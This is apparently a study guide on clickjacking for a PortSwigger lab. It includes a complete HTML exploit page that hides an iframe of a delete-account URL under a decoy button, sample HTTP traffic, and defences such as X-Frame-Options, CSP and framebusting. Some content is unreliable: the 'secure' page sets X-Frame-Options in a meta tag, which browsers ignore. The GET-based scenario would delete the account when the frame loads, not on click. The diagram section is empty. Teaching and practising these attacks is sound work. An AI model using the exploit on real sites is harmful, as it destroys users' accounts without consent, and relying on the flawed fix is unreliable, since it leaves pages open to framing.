

## Clickjacking Overview

Clickjacking, also known as UI redressing, is a malicious technique used by attackers to trick users into performing unintended actions on a website. This attack exploits the way browsers handle overlapping elements and can lead to serious security issues such as unauthorized access to sensitive information or actions like deleting accounts.

### What is Clickjacking?

Clickjacking occurs when an attacker overlays a transparent or opaque layer over a legitimate webpage, making it appear as though the user is interacting with one page when they are actually interacting with another. This can be achieved using various techniques, including iframe manipulation, CSS, and JavaScript.

### Why Does Clickjacking Matter?

Clickjacking is significant because it can bypass many security measures, such as CSRF tokens, which are designed to protect against Cross-Site Request Forgery attacks. By tricking the user into clicking on a seemingly benign element, the attacker can execute harmful actions on behalf of the user.

### How Does Clickjacking Work?

To understand clickjacking, let's break down the process:

1. **Overlay Creation**: The attacker creates a transparent or nearly invisible overlay that covers the target element on the victim's webpage.
2. **User Interaction**: When the user clicks on what they believe to be a harmless element, they are actually clicking on the hidden overlay.
3. **Action Execution**: The click triggers an action on the victim's webpage, such as submitting a form or clicking a button.

### Real-World Example: CVE-2010-3586

One notable example of clickjacking is the Adobe Flash Player vulnerability (CVE-2010-3586). In this case, attackers exploited a flaw in the Flash Player to create a clickjacking attack that allowed them to steal cookies and other sensitive data from users. This vulnerability affected millions of users and highlighted the importance of securing web applications against such attacks.

### Basic Clickjacking with CSRF Token Protection

Let's delve into a basic clickjacking scenario involving CSRF token protection.

#### Background Theory

Cross-Site Request Forgery (CSRF) is a type of attack where an attacker tricks a user into executing unwanted actions on a web application in which they are authenticated. To mitigate CSRF attacks, web applications often use CSRF tokens, which are unique identifiers generated for each user session.

However, clickjacking can bypass CSRF token protection by tricking the user into clicking on a hidden element that triggers an action on the victim's webpage.

#### Step-by-Step Mechanics

1. **Create the Exploit Page**:
    - The attacker creates a webpage that contains an iframe pointing to the victim's webpage.
    - The iframe is made invisible using CSS properties like `opacity` or `visibility`.

2. **Overlay the Hidden Element**:
    - The attacker places a visible element (like a button) on top of the hidden iframe.
    - When the user clicks on the visible element, they are actually clicking on the hidden iframe.

3. **Trigger the Action**:
    - The click on the hidden iframe triggers an action on the victim's webpage, such as deleting an account.

#### Complete Example

Let's walk through a complete example of a clickjacking exploit.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Clickjacking Exploit</title>
    <style>
        .hidden {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0.001; /* Make the iframe almost invisible */
        }
    </style>
</head>
<body>
    <!-- Invisible iframe -->
    <iframe class="hidden" src="https://victimwebsite.com/delete-account"></iframe>

    <!-- Visible button -->
    <button style="position: absolute; top: 50%; left: 50%; transform: translate(-50%, -50%);">Click Me</button>
</body>
</html>
```

In this example, the iframe is positioned absolutely and made almost invisible using the `opacity` property. The visible button is placed on top of the iframe, so when the user clicks on the button, they are actually clicking on the iframe, triggering the delete account action.

### HTTP Details

Here’s a detailed breakdown of the HTTP request and response involved in this clickjacking attack:

#### Full HTTP Request

```http
GET /delete-account HTTP/1.1
Host: victimwebsite.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: session_id=abc123; csrf_token=def456
Connection: keep-alive
Referer: http://attackerwebsite.com/exploit.html
```

#### Full HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 01 Mar 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Set-Cookie: session_id=abc123; Path=/; HttpOnly
Set-Cookie: csrf_token=def456; Path=/; HttpOnly
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Delete Account</title>
</head>
<body>
    <h1>Your account has been deleted.</h1>
</body>
</html>
```

### Mermaid Diagrams

Let's visualize the clickjacking attack using a mermaid diagram.



### Common Mistakes and Pitfalls

1. **Incomplete Overlay**: If the overlay is not properly positioned or sized, the attack may fail.
2. **Insufficient Opacity**: If the overlay is not sufficiently transparent, the attack may be detected.
3. **CSRF Tokens**: If the victim's website uses strong CSRF token protection, the attack may be more difficult to execute.

### How to Prevent / Defend Against Clickjacking

#### Detection

- **Browser Extensions**: Use browser extensions that detect and block clickjacking attempts.
- **Security Headers**: Implement security headers like `X-Frame-Options` and `Content-Security-Policy` to prevent framing.

#### Prevention

1. **Use X-Frame-Options Header**:
    - Set the `X-Frame-Options` header to `SAMEORIGIN` or `DENY` to prevent the page from being framed.
    
    ```http
    X-Frame-Options: SAMEORIGIN
    ```

2. **Implement Content Security Policy (CSP)**:
    - Use CSP to restrict the sources from which frames can be loaded.
    
    ```http
    Content-Security-Policy: frame-ancestors 'self'
    ```

3. **JavaScript Mitigation**:
    - Use JavaScript to check if the page is being framed and redirect if necessary.
    
    ```javascript
    if (top !== self) {
        top.location = self.location;
    }
    ```

#### Secure Coding Fixes

Here’s a comparison of the vulnerable and secure versions of the code:

**Vulnerable Code**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vulnerable Page</title>
</head>
<body>
    <button onclick="deleteAccount()">Delete Account</button>
    <script>
        function deleteAccount() {
            // Delete account logic
        }
    </script>
</body>
</html>
```

**Secure Code**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Secure Page</title>
    <meta http-equiv="X-Frame-Options" content="SAMEORIGIN">
    <script>
        if (top !== self) {
            top.location = self.location;
        }
    </script>
</head>
<body>
    <button onclick="deleteAccount()">Delete Account</button>
    <script>
        function deleteAccount() {
            // Delete account logic
        }
    </script>
</body>
</html>
```

### Configuration Hardening

1. **Web Server Configuration**:
    - Ensure your web server is configured to set appropriate security headers.
    
    ```nginx
    server {
        listen 80;
        server_name example.com;

        location / {
            add_header X-Frame-Options SAMEORIGIN;
            add_header Content-Security-Policy "frame-ancestors 'self'";
        }
    }
    ```

2. **Application-Level Configuration**:
    - Configure your application framework to automatically set security headers.
    
    ```python
    from flask import Flask, make_response

    app = Flask(__name__)

    @app.after_request
    def apply_caching(response):
        response.headers["X-Frame-Options"] = "SAMEORIGIN"
        response.headers["Content-Security-Policy"] = "frame-ancestors 'self'"
        return response
    ```

### Hands-On Practice Labs

For hands-on practice with clickjacking, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive lab on clickjacking.
- **OWASP Juice Shop**: Provides a real-world application with vulnerabilities, including clickjacking.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing web hacking techniques.

These labs will help you gain practical experience in identifying and mitigating clickjacking vulnerabilities.

By thoroughly understanding the mechanics of clickjacking and implementing robust security measures, you can significantly reduce the risk of such attacks on your web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/05-Clickjacking/02-Lab 1 Basic clickjacking with CSRF token protection/01-Clickjacking A Comprehensive Guide|Clickjacking A Comprehensive Guide]] | [[Web Security (PortSwigger)/05-Clickjacking/02-Lab 1 Basic clickjacking with CSRF token protection/00-Overview|Overview]] | [[03-Introduction to Clickjacking|Introduction to Clickjacking]]
